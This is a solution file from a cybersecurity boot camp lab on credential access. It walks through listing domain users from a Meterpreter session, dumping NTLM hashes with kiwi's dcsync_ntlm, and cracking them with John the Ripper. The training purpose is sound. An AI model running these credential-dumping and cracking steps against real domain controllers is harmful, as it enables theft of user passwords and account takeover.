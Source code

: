 ## Solution File: Credential Access

In this activity, you used your SYSTEM access on the domain controller to make a copy of the `NTDS.dit` file and attempted to crack the password hashes in it.

### Instructions

1. In Meterpreter, enter a shell, then view the users on the machine via the `net` command.

	- `net users`

2. Exit the command shell, then load `kiwi` and perform `dcsync_ntlm` in Meterpreter for each of the users. Run the command `dcsync_ntlm` to see the usage.

    - `dcsync_ntlm`

     ![A screenshot depicts the results of the command.](dcsync.PNG)

3. Take each NTLM hash and place them in a text file. Using `john`, crack the hashes in the file.

    - `john hash.txt --format=NT `

     ![A screenshot depicts the results of the command.](john.PNG)

4. View solved hashes with the command `john --show <file_name>`

---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



